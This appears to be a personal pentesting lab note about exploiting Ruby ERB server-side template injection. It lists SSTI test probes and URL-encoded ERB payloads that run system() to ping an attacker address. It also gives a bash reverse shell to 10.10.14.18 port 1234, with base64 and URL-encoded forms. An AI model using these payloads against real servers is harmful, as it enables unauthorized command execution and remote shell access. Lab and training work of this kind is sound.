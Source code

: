 ```yaml
---
aliases: []
---
```

# Research
### ERB (Ruby)

^3f8fee

https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#erb-ruby ^9f2442
- `{{7*7}} = {{7*7}}`
    
- `${7*7} = ${7*7}`
    
- `<%= 7*7 %> = 49`
     ^d1dd5b
- `<%= foobar %> = Error`
---
### Ping
https://stackoverflow.com/questions/13283674/how-to-ping-ip-addresses-in-php-and-give-results
~~~
system("ping -c 10.10.11.253");
~~~

^a79f05

---

~~~
<%= 2*2 %>
asad%0A<%25%3d+2*2+%25>
system("ping -c 10.10.14.18");
asd%0A<%25%3Dsystem("ping+-c1+10.10.14.18");%25>
~~~

---
### hURL
https://www.kali.org/tools/hurl/
~~~
sh -i >& /dev/tcp/10.10.14.18/1234 0>&1
~~~

~~~
Original :: sh -i >& /dev/tcp/10.10.14.18/1234 0>&1                              
base64 ENcoded :: c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTgvMTIzNCAwPiYx

Original :: c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTgvMTIzNCAwPiYx                 
URL ENcoded :: c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTgvMTIzNCAwPiYx
~~~

